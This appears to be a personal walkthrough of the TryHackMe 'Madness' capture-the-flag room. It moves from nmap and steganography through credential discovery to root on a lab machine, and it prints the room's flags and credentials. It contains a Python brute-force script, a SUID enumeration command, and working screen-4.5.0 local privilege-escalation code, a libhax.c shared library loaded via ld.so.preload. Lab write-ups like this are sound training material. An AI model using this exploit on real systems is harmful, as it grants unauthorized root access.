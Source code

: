 # Tryhackme.com Room : Madness
`https://tryhackme.com/room/madness`


# Instance
```
export IP=10.10.52.81
```

# Nmap
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Running `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP` we find nothing.

Looking at the source of the default page. We find some funny things..

The is a link to
```
thm.jpg
```

Looking at an hexdump of the image, we see a `png` header for a `jpg` file.

We replace the first bytes of the file with the header for jpeg:
```
FF D8 FF E0 00 00 4A 46 49 46 00
```

We open it and see text on the image:
```
Hidden Directory
/th1s_1s_h1dd3n
```

The website seems o be looking for a secret code. But what is the query parameter ?

Looking at the html we find this mention:
```
It's between 0-99 but I don't think anyone will look here
```

To enter a secret we GET at :
```
/th1s_1s_h1dd3n/?secret=0
```

Let's just bruteforce this quickly with this script :
```py
import requests

ip = "10.10.52.81"

for i in range(0,99):
	print(f"Trying secret : {i}")
	r = requests.get(f"http://{ip}/th1s_1s_h1dd3n/?secret={i}")

	if 'wrong' not in r.text:
		print(f"The secret code is {i}")
		break
```

We get the secret code:
```
73
```

We find the string
```
Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B
```
Can't find the format for this... `y2RPJ4QaPF!B`


Can't find anything..

Oh well... Looking at the write up. We had to steghide the image that is on the challenge page...not on the machine.

There is no passphrase and we get `password.txt`
```
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

So again. had too lookup in the write up. Tried steghide on the image but it didn't work. Turns out i corrupted my image somehow. I redownloaded it, changed the headers again and used `y2RPJ4QaPF!B` as passphrase. I got :
```
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

Seems like the username is ROTed (Well, there was a hint about it.. :P)

It's ROT13 with
```
joker
```

So we got the credentials:
```
joker:*axA&GF8dP
```

And we're finally in...

We get the user flag `cat /home/joker/user.txt`
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

our user is not in sudo.

There is nothing more in `/var/www/html` and there is no other users

Let's find `SUID` binaries `find / -perm -4000 2>/dev/null`:
```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

We can probably do something with `screen`. 

Nothing on gtfobins tho.

Looking on the internet i find this exploit `https://www.exploit-db.com/exploits/41154`

The exploit load a shared library using 
```bash
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
```

`libhax.c` :
```c
/tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Basically, this exploit allow us to write root files.

I was thinking that we might be able to write to crontabs and get a root reverse shell or something but it didn't work.

Files written by screen are owned by `root` but part of group `joker` (because suid).
Cron file must be owned by root to be runned.
I guess that's why i couldn't write over `/etc/crontab`. Can't write in the correct group.


We run it and get root
```
uid=0(root) gid=0(root) groups=0(root),1000(joker)
```

And the flag `cat /root/root.txt`
```
THM{5ecd98aa66a6abb670184d7547c8124a}
```


